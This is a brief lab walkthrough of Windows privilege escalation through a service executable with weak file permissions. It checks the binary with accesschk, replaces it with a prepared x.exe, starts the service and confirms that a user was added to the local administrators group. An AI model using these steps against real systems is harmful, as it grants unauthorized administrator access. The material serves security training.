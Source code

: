 # Executable Files

Windows VM

1\. Open command prompt and type:&#x20;

`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"`

`OR JUST USE PowerUp`\
Example scenario:- Notice that the “Everyone” user group has “FILE\_ALL\_ACCESS” permission on the filepermservice.exe file.

Exploitation

Windows VM

1\. Open command prompt and type: copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"(JUST REPLACE THE FILES DIRECTLY RENMAE AND DELETE IT )\
2\. In command prompt type: sc start filepermsvc\
3\. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators
